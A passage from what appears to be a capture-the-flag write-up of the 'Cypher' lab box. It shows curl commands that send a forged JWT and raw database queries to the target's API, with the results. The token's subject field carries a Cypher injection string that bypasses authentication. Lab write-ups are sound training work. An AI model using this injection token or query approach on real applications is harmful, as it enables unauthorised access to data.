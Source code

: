 ![](images/Pasted%20image%2020250716192846.png)

And then copied to BURP for a clutter-free response evaluation experience.

```
fcoomans@kali:~/htb/cypher$ curl -s -b 'access-token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbicgT1IgdHJ1ZSBSRVRVUk4gJzViYWE2MWU0YzliOTNmM2YwNjgyMjUwYjZjZjgzMzFiN2VlNjhmZDgnIEFTIGhhc2ggLy8iLCJleHAiOjE3NTI3Mjk4NDB9.0aLQ2TGsW98XtUQBqAAGCmnHMIvy-0uVTPBVpgfXagM' "http://cypher.htb/api/cypher?query=MATCH%20(n)%20RETURN%20n" |jq |head
[
  {
    "n": {
      "name": "graphasm"
    }
  },
  {
    "n": {
      "value": "9f54ca4c130be6d529a56dee59dc2b2090e43acf"
    }
```

The `SHOW PROCEDURES` query is sent and look at that, the `helloWorld` and `getUrlStatusCode` procedures from the Java JAR file found under `testing` is shown as procedures that I can `CALL` to be run.

```
fcoomans@kali:~/htb/cypher$ curl -s -b 'access-token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbicgT1IgdHJ1ZSBSRVRVUk4gJzViYWE2MWU0YzliOTNmM2YwNjgyMjUwYjZjZjgzMzFiN2VlNjhmZDgnIEFTIGhhc2ggLy8iLCJleHAiOjE3NTI3Mjk4NDB9.0aLQ2TGsW98XtUQBqAAGCmnHMIvy-0uVTPBVpgfXagM' "http://cypher.htb/api/cypher?query=SHOW%20PROCEDURES" |jq
[
  {
    "name": "custom.getUrlStatusCode",
    "description": "Returns the HTTP status code for the given URL as a string",
    "mode": "READ",
    "worksOnSystem": false
  },
  {
    "name": "custom.helloWorld",
    "description": "A simple hello world procedure",
    "mode": "READ",
    "worksOnSystem": false
  },
<SNIP>
```
